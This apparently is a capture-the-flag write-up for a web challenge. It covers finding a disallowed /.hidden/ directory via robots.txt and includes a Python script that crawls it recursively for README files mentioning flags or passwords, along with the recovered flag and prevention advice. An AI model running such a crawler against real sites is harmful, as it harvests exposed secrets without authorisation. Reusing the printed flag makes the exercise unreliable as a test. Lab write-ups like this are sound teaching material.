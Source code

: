 # Scraping

## Flag

```
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

## Discovery and Exploitation

### Finding a Disallowed Directory:

1. Upon inspecting the robots.txt file, a disallowed directory /.hidden/ was found. This hinted at the possibility of sensitive or hidden content.
   Exploring /.hidden/:

2. Within the / .hidden/ directory, there were links to additional subdirectories. These appeared to be structured in a way that required deeper exploration.
   Recursive Scraping for Links and Content:

3. A Python script was utilized to recursively navigate through the directory structure, retrieving all available links and checking the content of each file.
   Key steps in the script's functionality included:
   Fetching the content of each directory and identifying links.
   Examining README files in the directories for sensitive keywords like "flag," "FLAG," "password," or "PASSWORD."
   Saving any discovered content containing the desired keywords to a results file for further review.flag we use the following script

```python
import requests
import bs4 as bs

def scrapping_recursive(url):
	request = requests.get(url)
	s = bs.BeautifulSoup(request.text, 'html.parser')
	if (s is not None):
		print("Scrapping: " + url)
		links = s.find_all("a")
		f = open("results.txt", "a+")
		for link in links:
			final_link = link.get('href')
			if (final_link == "README"):
				request = requests.get(url + final_link)
				if "flag" in request.text or "FLAG" in request.text or "password" in request.text or "PASSWORD" in request.text:
						f.write(request.text)
			elif (final_link != "../"):
				scrapping_recursive(url + final_link)
		f.close()

url = "http://192.168.64.6/.hidden/"
scrapping_recursive(url)
```

4. finlay we find the flag in [host]/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README

## Why It Works

The script works by recursively navigating through the directory structure, identifying links, and examining the content of each file. By searching for specific keywords like "flag," "FLAG," "password," or "PASSWORD" in README files, the script can identify sensitive information that may be hidden within the directories.

## Prevention

To prevent unauthorized access to sensitive directories and files, ensure that proper access controls are in place. Limit directory listings and implement authentication mechanisms to restrict access to authorized users only. Additionally, consider encrypting sensitive data and using secure protocols to protect information from unauthorized disclosure.
